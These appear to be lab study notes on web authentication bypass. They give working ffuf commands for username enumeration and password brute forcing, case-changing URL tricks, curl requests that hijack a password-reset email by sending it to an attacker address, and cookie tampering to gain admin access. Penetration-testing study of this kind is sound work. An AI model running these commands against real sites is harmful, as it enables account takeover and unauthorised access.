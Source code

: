 # Authentication Bypass
## Username Enumeration
- Try a random username that probably does not exist, and then try one that probably exists, is there a different error?
````
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
````
- We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
- The ffuf tool uses a list of commonly used usernames to check against for any matches.
- Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`
````
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
````
- `-w` -> selects the file's location
- `-X` -> argument specifies the request method
- `-d` -> the data that we are going to send
- `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
- `-H` -> for adding additional headers to the request
- `-u` ->  specifies the URL we are making the request to
- `-mr` -> is the text on the page we are looking for to validate we've found a valid username
## Password Brute force attack
````
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````
- Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
- `W1` -> for our valid list of usernames
- `W2` -> for the list of passwords we are going to try
- `-w` -> the multiple word lists are also specified with this flag
- `-fc` -> this argument check for an HTTP status code other than a 200
## Authentication Bypass Logic Flaw
- If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
- Try:
````
/adMin
/aDmIn
````
### Finding password reset forms
- If there is an option always make an account. There could be pages you have access to that you otherwise would not.
- Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
- Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
````
- `-H` -> to add an additional header to the request.  In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
- Can find this out in burp, or set something ourselves
- The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
- We can control where the password reset email gets delivered.
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
````
- Now re-running the curl command we can alter where the reset link is sent
````
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
````
## Cookie Tampering 
- Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
- First, we'll start just by requesting the target page:
````
curl http://MACHINE_IP/cookie-test
````
- We can see we are returned a message of: Not Logged In
- Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:
````
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
````
- We are given the message: Logged In As A User
- Finally, we'll send one last request setting both the logged_in and admin cookie to true:
````
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
````
- This returns the result: Logged In As An Admin



































































